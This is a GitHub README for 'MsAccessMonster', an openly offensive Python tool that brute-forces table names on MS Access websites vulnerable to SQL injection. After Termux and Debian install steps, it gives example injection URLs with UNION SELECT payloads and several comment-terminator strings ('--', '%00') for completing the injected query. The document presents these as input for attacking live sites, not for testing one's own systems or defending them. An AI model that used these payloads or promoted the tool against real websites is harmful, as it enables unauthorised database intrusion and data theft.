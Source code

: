 ## MsAccessMonster
A fast tool for bruteforcing the Ms Access SQL Injection vulnerable sites with 3k+ possible table names.

### Compatible devices
- As this is a python tool, it will run in all devices Termux and Debian based OS.

### Installation & running process
- For Termux ( Android )
```
pkg update && pkg upgrade -y
```
```
pkg install git && python3
```
```
pip install requests
```
```
git clone https://github.com/EverythingVulnerable/MsAccessMonster
```
- For Debian based OS
```
sudo su
```
```
apt-get update && apt upgrade -y
```
```
apt-get install python3 && python3-pip && git
```
```
git clone https://github.com/EverythingVulnerable/MsAccessMonster
```

### Running commands ( for every device )
```
cd MsAccessMonster
```
```
python3 ms.py
```
Then, you will be asked for a Ms Access Vulnerable Site. Give it like this,
```
https://www.everythingvuln1.com/vuln.php?id=1 and 0 union select 1,2,3,4 from
```
Or,
```
https://www.everythingvuln1.com/vuln.php?id=1'and 0 union select 1,2,3,4 from
```
Then, you will be asked to give the comment of the query. This can be anything. Depends on the website. Such as,

```
--
--+-
%00
;%00
```
Give the perfect comment and hit enter and wait for the response.
```
[$] Site link: https://www.everythingvuln1.com/vuln.php?id=1 and 0 union select 1,2,3,4 from ..... %00
```
